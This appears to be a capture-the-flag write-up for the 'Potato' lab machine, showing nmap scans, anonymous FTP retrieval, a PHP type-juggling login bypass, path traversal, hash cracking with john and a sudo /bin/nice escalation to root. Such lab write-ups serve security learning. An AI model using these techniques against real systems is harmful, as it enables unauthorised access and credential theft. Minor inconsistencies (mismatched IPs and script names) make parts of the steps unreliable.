









### Step1: Scanning

- **Details**:
Attack Machine IP: `192.168.60.101`
Box Name: **Potato**
Rating: **Easy**

 **Nmap Output:** 
```bash
kali@kali:~$ nmap -sC -sV -oA nmap/initial 192.168.54.101
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-27 16:51 EDT
Nmap scan report for 192.168.54.101
Host is up (0.00015s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef:24:0e:ab:d2:b3:16:b4:4b:2e:27:c0:5f:48:79:8b (RSA)
|   256 f2:d8:35:3f:49:59:85:85:07:e6:a2:0e:65:7a:8c:4b (ECDSA)
|_  256 0b:23:89:c3:c0:26:d5:64:5e:93:b7:ba:f5:14:7f:3e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Potato company
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```


Found website running  on port 80

- Nothing found in source or any other pages.

Namp - all port scan

```bash
kali@kali:~$ nmap -sC -sV -oA nmap/all_ports -p- 192.168.54.101
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-28 06:35 EDT
Nmap scan report for 192.168.54.101
Host is up (0.00013s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef:24:0e:ab:d2:b3:16:b4:4b:2e:27:c0:5f:48:79:8b (RSA)
|   256 f2:d8:35:3f:49:59:85:85:07:e6:a2:0e:65:7a:8c:4b (ECDSA)
|_  256 0b:23:89:c3:c0:26:d5:64:5e:93:b7:ba:f5:14:7f:3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Potato company
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.50 seconds

```


### 2. Enumeration


-  Found ftp running on port 2112 and anonymous loogin is allowed .
login name: `anonymous`
password: `` [ENTER]


```bash
kali@kali:~$ ftp 192.168.54.101 2112
Connected to 192.168.54.101.
220 ProFTPD Server (Debian) [::ffff:192.168.54.101]
Name (192.168.54.101:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230-Welcome, archive user anonymous@192.168.54.200 !
230-
230-The local time is: Fri May 28 10:39:09 2021
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> mget *
mget welcome.msg? y
200 PORT command successful
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
226 Transfer complete
54 bytes received in 0.00 secs (994.9882 kB/s)
mget index.php.bak? y
200 PORT command successful
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
226 Transfer complete
901 bytes received in 0.00 secs (868.5911 kB/s)
ftp> bye
221 Goodbye. 
```

- Downloaded all files locally

```bash
kali@kali:~$ cat welcome.msg                       
Welcome, archive user %U@%R !                
The local time is: %T  
```
- Nothing interesting in `welcome.msg`

```bash
                                                                                                                                                                                                                                           
kali@kali:~$ cat index.bak                                             
<html>                
<head></head>      
<body>
<?php                                   
$pass= "potato"; //note Change this password regularly                                                             
if($_GET['login']==="1"){                                                                                                    
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {                                                                                                                                               
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";        
    setcookie('pass', $pass, time() + 365*24*3600);                                 
  }else{                                                                            
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login pag
  }                                                                                 
  exit();                                                                           
}                                                                                   
?>


  <form action="index.php?login=1" method="POST">
                <h1>Login</h1>
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>
                <label><b>Password:</b></label>
                <input type="password" name="password" required>
                </br>
                <input type="submit" id='submit' value='Login' >
  </form>
</body>
</html>

```

- Application is running on php and seem to use strcmp with loose operator `==` 
    username = `admin`
    password = `potato`


- Running dirbuster 


```bash
kali@kali:~$ dirbuster -u http://192.168.54.101 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
File found: /index.php - 200
Dir found: / - 200
Dir found: /icons/ - 403
Dir found: /admin/ - 200
File found: /admin/index.php - 200
Dir found: /icons/small/ - 403
Dir found: /admin/logs/ - 200
File found: /admin/logs/log_01.txt - 200
File found: /admin/logs/log_02.txt - 200
File found: /admin/logs/log_03.txt - 200
File found: /admin/dashboard.php - 302
```
- Found login page on `/admin/dashboard.php`

- Logged in using username `admin` and password `potato` but failed. seems like password is updated.

- After careful observation, found that php code is using `==` for comparision, which hints type juggling
Source: https://blog.0daylabs.com/2015/09/21/csaw-web-200-write-up/
- Fire up the `burpsuite` to see the request



- Modify the password query param and field to `password[]=potato`


- Log in success


- Dashboard has few menus, but `ping` seems interesting and tried command injection, but failed ..


- `Get the log` seems to be fetching logs from backend, so modified the request through burp and tried path traversal on it



- AND IT WORKED


- `webadmin` contains  a hash, so copied the contenets into a file `password_hash.txt` and loaded into john

```bash
kali@kali:~$ vim password_hash.txt
kali@kali:~$ john  password_hash.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 5 candidates buffered for the current salt, minimum 24 needed for performance.
Warning: Only 6 candidates buffered for the current salt, minimum 24 needed for performance.
Warning: Only 23 candidates buffered for the current salt, minimum 24 needed for performance.
Warning: Only 19 candidates buffered for the current salt, minimum 24 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 15 candidates buffered for the current salt, minimum 24 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
dragon           (webadmin)
1g 0:00:00:00 DONE 2/3 (2021-05-28 07:02) 20.00g/s 18460p/s 18460c/s 18460C/s ranger..diamond
Use the "--show" option to display all of the cracked passwords reliably
Session completed
kali@kali:~$ john  password_hash.txt --show
webadmin:dragon:1001:1001:webadmin,,,:/home/webadmin:/bin/bash                        
                                                                                      
1 password hash cracked, 0 left
```

- Hash cracked (md5) and password is `dragon` and username is `webadmin`

- tried  to login using the abpve credentials on web, isntead of admin, thinking that it might be dfifferent account or functionality

- Then looking at `nmap` scan,`ssh` is runnning, used the credentials to login

- VIOLA !!! logged in as `webadmin`



- getting user flag (found in `local.txt`)

```bash
    webadmin@serv:~$ ls
    local.txt  user.txt
    webadmin@serv:~$ cat local.txt    
    6e1317808a94379d8abbfc155dda6618  
```

### 3. Privilege Escalation

- Running `sudo -l` to see if the user can run apps as root.

```bash
webadmin@serv:~$ sudo -l
[sudo] password for webadmin:                            
Matching Defaults entries for webadmin on serv:                                            
    env_reset, mail_badpass,             
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 
User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
webadmin@serv:~$ 
```

```bash
webadmin@serv:~$ cd /notes/
webadmin@serv:/notes$ ls
clear.sh  id.sh
webadmin@serv:/notes$ ls -la
total 16
drwxr-xr-x  2 root root 4096 Aug  2  2020 .
drwxr-xr-x 21 root root 4096 Sep 28  2020 ..
-rwx------  1 root root   11 Aug  2  2020 clear.sh
-rwx------  1 root root    8 Aug  2  2020 id.sh
```
- Found two files but no `write` or `execute` permissions

- Also Found a  binary `/bin/nice` then searched in `gtfobins` to abuse/escalate  shell 



- No permissions to write on other locations, so created a shell in home directory and ran through `/notes/` folder

- shell
```bash
echo "/bin/bash" >> root.sh
```


- change poermissions to execute `chmod +x shell.sh`
- ran the application using `/bin/nice` binary as `sudo` and logegd is as `root`


> 
```bash
$: sudo /bin/nice root.sh # did'nt work probably the file directory also need to run as sudo
```
__Takeaway:__

0. Always scan for all ports
1. Scan for directories through `gobuster` always
3. use `gtf0bins` for absuing binaries


__Vulnerabilitie/Attacks__

1. Directory traversal attacks
2. PHP type juggling
3. Weak passwords/hashes


